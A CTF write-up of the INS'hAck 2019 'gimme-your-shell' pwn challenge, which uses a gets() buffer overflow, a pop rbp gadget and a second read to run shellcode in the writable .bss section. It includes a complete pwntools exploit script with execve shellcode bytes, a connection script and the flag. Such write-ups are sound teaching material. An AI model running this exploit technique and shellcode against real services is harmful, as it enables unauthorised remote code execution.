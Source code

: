 ```yaml
---
title: "Give Me Your Shell"
date: 2019-05-06T18:39:04+02:00
categories:
- write-ups
- inshack-2019
tags:
- pwn
- reverse
keywords:
- pwn
- reverse
coverImage: /images/inshack-2019/bg.png
coverSize: full
coverMeta: in
metaAlignment: center
autoThumbnailImage: false
summary : "Write-up about the challenge gimme-your-shell from the inshack-2019 CTF."
---
```


|  Event | Challenge | Category | Points | Solves |
|:----------:|:------------:|:------------:|:------------:|:------------:|
| inshack-2019 |  gimme-your-shell  |  pwn  | 50 |  67  |

# TL;DR

This is a remote buffer overflow challenge, there is no protection on the binary but ASLR is enable on the remote server. I redirected the execution flow to write my shellcode to a controled area, then jump to it and execute it.

# Getting informations

First I looked at the protections on the binary :

{{< image classes="fancybox fig-100 center" src="/images/inshack-2019/protections.png" thumbnail="/images/inshack-2019/protections.png" >}}

No protections is enabled but it's a remote challenge and we can assume that the ASLR is enabled on the remote server. Let keep that in mind and try to run the binary. 

{{< image classes="fancybox fig-100" src="/images/inshack-2019/crash.png" thumbnail="/images/inshack-2019/crash.png" >}}

The program crash when the input is to big. The binary is not stripped which means that we can find symbol inside the binary by opening it with ghidra we can easily spot the {{< hl-text orange >}}vuln{{< /hl-text >}} function which use a vulnerable function to get input from the user. Here {{< hl-text orange >}}gets{{< /hl-text >}} will read the user input from STDIN and the result will be stored in {{< hl-text orange >}}local_18{{< /hl-text >}} but there is no check on the size of the user input, we have our buffer overflow.

{{< image classes="fancybox fig-100" src="/images/inshack-2019/ghidra.png" thumbnail="/images/inshack-2019/ghidra.png" >}}

# Road to the exploit

Since ASLR is randomizing the stack addresses we can't find the address of our payload and jump to it. We could try to leak an address of libc and perform a ret2libc but I didn't use this technique because it's an 64 bits binary and there is no easy way to control the register {{< hl-text orange >}}rdi{{< /hl-text >}} which is used to pass the first arguments. So without a gadget to properly set {{< hl-text orange >}}rdi{{< /hl-text >}} we can't make a call to {{< hl-text orange >}}puts{{< /hl-text >}} with the address of {{< hl-text orange >}}gets{{< /hl-text >}} as parameter to leak it's address. But remember the NX bit is not set, here is a definition from wikipedia :

{{< blockquote >}}
An operating system with support for the NX bit may mark certain areas of memory as non-executable. The processor will then refuse to execute any code residing in these areas of memory. The general technique, known as executable space protection, is used to prevent certain types of malicious software from taking over computers by inserting their code into another program's data storage area and running their own code from within this section; one class of such attacks is known as the buffer overflow attack. 
{{< /blockquote >}}

So if it's disable we can write data and then execute what we write if it's a valid set of instructions. Now there are 2 problems to solve, where to write the shellcode and how to jump there. 

We can see from the code in ghidra that the parameter of the {{< hl-text orange >}}gets{{< /hl-text >}} function depend of {{< hl-text orange >}}rbp{{< /hl-text >}}

{{< codeblock lang="assembly"  >}}
00400570 48 8d 45 f0     LEA        RAX=>local_18,[RBP + -0x10]
00400574 48 89 c7        MOV        RDI,RAX
00400577 e8 d4 fe        CALL       gets
{{< /codeblock >}}

By chance there is a [gadget](https://thinkloveshare.com/en/hacking/pwn_3of4_saperliropette/) which allow us to set a crafted value in {{< hl-text orange >}}rbp{{< /hl-text >}} :

{{< codeblock lang="assembly"  >}}
ROPgadget --binary weak
[...]
0x0000000000400522 : pop rbp ; ret
[...]
{{< /codeblock >}}

You can use the readelf command to list sections of the binary and their differents rights, we can see that the {{< hl-text orange >}}.bss{{< /hl-text >}} section has write (W) right, it's a perfect candidate to host our shellcode.
{{< codeblock lang="assembly"  >}}
readelf -S weak
[...]
[25] .bss              NOBITS           0000000000600a18  00000a18
    0000000000000010  0000000000000000  WA       0     0     8
[...]
{{< /codeblock >}}


We also have to see where the program crash, I use gdb with the peda extention which allow me to create patterns and search for them : 

{{< codeblock lang="assembly"  >}}
gdb ./weak
gdb-peda$ pattern_create 30
'AAA%AAsAABAA$AAnAACAA-AA(AADAA'
gdb-peda$ r 
{{< /codeblock >}}

{{< image classes="fancybox fig-100" src="/images/inshack-2019/crash-peda.png" thumbnail="/images/inshack-2019/crash-peda.png" >}}

Perfect we can control {{< hl-text orange >}}rip{{< /hl-text >}} which is the instuction pointer at offset 24.

# Building the exploit

So here is the plan : 

- overflow the program until rip
- use the previous gadget to set rbp with a controlled value in bss
- ret to the code in vuln to make a second call to get
- send our shellcode which will be in bss
- jump to our controlled area in bss

{{< codeblock "exploit.py" "python" >}}
from pwn import *

s = process("./connect.sh", shell=True)

shell = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

bss = 0x0600b00                                         # bss WX permissions
offset = 24

stage1 = ""
stage1 += "A" * offset
stage1 += p64(0x0400522)                                # pop rbp
stage1 += p64(bss + 0x10)
stage1 += p64(0x0400570)                                # back to vuln

print s.recvuntil("president.\n").strip()

s.sendline(stage1)

print s.recvuntil("remember !\n").strip()

stage2 = ""
stage2 += "A" * offset
stage2 += p64(0x0600b00 +32)                            # 32 is the lenght of the offset plus the
stage2 += shell                                         #lenght of the 0x0600b00 address

s.sendline(stage2)

print s.recvuntil("remember !\n").strip()
s.interactive()
{{< /codeblock >}}

{{< codeblock "connect.sh" "bash"  >}}
ssh -i ../key.pub -p 2225 user@gimme-your-shell.ctf.insecurity-insa.fr
{{< /codeblock >}}

# Flag

{{< hl-text red >}}INSA{YoU_h4v3_a_b34uT1fUL_Sh33lc0d3}{{< /hl-text >}} 





